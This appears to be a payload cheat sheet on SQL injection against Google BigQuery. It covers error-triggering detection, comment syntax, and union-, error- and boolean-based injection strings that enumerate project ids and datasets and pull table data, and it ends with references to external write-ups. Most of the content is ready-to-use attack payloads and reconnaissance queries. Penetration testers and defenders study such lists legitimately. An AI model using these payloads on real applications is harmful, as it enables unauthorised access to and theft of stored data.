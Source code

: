 # Google BigQuery SQL Injection

> Google BigQuery SQL Injection  is a type of security vulnerability where an attacker can execute arbitrary SQL queries on a Google BigQuery database by manipulating user inputs that are incorporated into SQL queries without proper sanitization. This can lead to unauthorized data access, data manipulation, or other malicious activities.

## Summary

* [Detection](#detection)
* [BigQuery Comment](#bigquery-comment)
* [BigQuery Union Based](#bigquery-union-based)
* [BigQuery Error Based](#bigquery-error-based)
* [BigQuery Boolean Based](#bigquery-boolean-based)
* [BigQuery Time Based](#bigquery-time-based)
* [References](#references)

## Detection

* Use a classic single quote to trigger an error: `'`
* Identify BigQuery using backtick notation: ```SELECT .... FROM `` AS ...```

| SQL Query                                             | Description |
| ----------------------------------------------------- | -------------------- |
| `SELECT @@project_id`                                 | Gathering project id |
| `SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA` | Gathering all dataset names |
| `select * from project_id.dataset_name.table_name`    | Gathering data from specific project id & dataset |

## BigQuery Comment

| Type                       | Description                       |
|----------------------------|-----------------------------------|
| `#`                        | Hash comment                      |
| `/* PostgreSQL Comment */` | C-style comment                   |

## BigQuery Union Based

```ps1
UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT 'asd'),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
' GROUP BY column_name UNION ALL SELECT column_name,1,1 FROM  (select column_name AS new_name from `project_id.dataset_name.table_name`) AS A GROUP BY column_name#
```

## BigQuery Error Based

| SQL Query                                                | Description          |
| -------------------------------------------------------- | -------------------- |
| `' OR if(1/(length((select('a')))-1)=1,true,false) OR '` | Division by zero     |
| `select CAST(@@project_id AS INT64)`                     | Casting              |

## BigQuery Boolean Based

```ps1
' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#
```

## BigQuery Time Based

* Time based functions does not exist in the BigQuery syntax.

## References

* [BigQuery SQL Injection Cheat Sheet - Ozgur Alp - February 14, 2022](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
* [BigQuery Documentation - Query Syntax - October 30, 2024](https://cloud.google.com/bigquery/docs/reference/standard-sql/query-syntax)
* [BigQuery Documentation - Functions and Operators - October 30, 2024](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* [Akamai Web Application Firewall Bypass Journey: Exploiting “Google BigQuery” SQL Injection Vulnerability - Duc Nguyen - March 31, 2020](https://hackemall.live/index.php/2020/03/31/akamai-web-application-firewall-bypass-journey-exploiting-google-bigquery-sql-injection-vulnerability/)
